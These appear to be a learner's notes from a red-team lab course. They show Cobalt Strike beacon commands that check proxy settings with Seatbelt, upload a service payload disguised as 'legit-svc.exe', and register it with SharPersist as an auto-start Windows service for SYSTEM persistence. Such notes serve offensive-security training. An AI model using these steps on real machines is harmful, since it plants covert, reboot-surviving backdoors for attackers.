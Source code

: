 
As we have seen user is running thourgh a proxy:

```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe - Internet Settings

====== InternetSettings ======

  HKCU                       ProxyEnable : 1
  HKCU                     ProxyOverride : *.cyberbotic.io;<local>
  HKCU                       ProxyServer : squid.dev.cyberbotic.io:3128
  
```

 So we cannot use http listeners for SYSTEM. We must use DNS or P2P.

## Windows Services

As we saw in in the previous chapter, there are many Windows services that run as SYSTEM.  Our various means of exploiting services for privilege escalation also act as persistence, but at the cost of breaking the legitimate service.  Instead, we can create our own service which won't impact on existing services.

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\legit-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: legit-svc

[+] SUCCESS: Service persistence added
```

> [!important] 
> Use svc payload since we are creating a service. 


This will create a new service in a STOPPED state, but with the START_TYPE set to AUTO_START. 

This means the service won't run until the machine is rebooted.  When the machine starts, so will the service, and it will be waiting for a connection.

Use connect localhost 4444 to connect to the beacon.
